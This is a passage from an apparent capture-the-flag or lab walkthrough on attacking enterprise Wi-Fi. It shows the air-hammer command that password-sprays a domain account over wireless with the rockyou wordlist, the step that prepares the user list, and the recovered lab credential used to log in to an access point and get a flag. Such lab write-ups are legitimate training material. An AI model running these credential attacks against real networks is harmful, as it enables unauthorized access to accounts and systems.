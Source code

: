 The following command is to be used:
```sh
./air-hammer.py -i wlan5 -e wifi-corp -u users.txt -p /root/rockyou-top100000.txt
```

You need to save the CONTOSO\\test user in the users.txt file:
```sh
echo ‘CONTOSO\\test’ > users.txt
```

And now you can launch air-hammer:

![](image66.png)
Illustration 64. Running the air-hammer tool.

Now, if you log in to the AP administration website, 192.168.6.1 with the credentials CONTOSO\\test::monkey, you get the flag:

![](image67.png)
Illustration 65. Flag after logging in to the AP website.

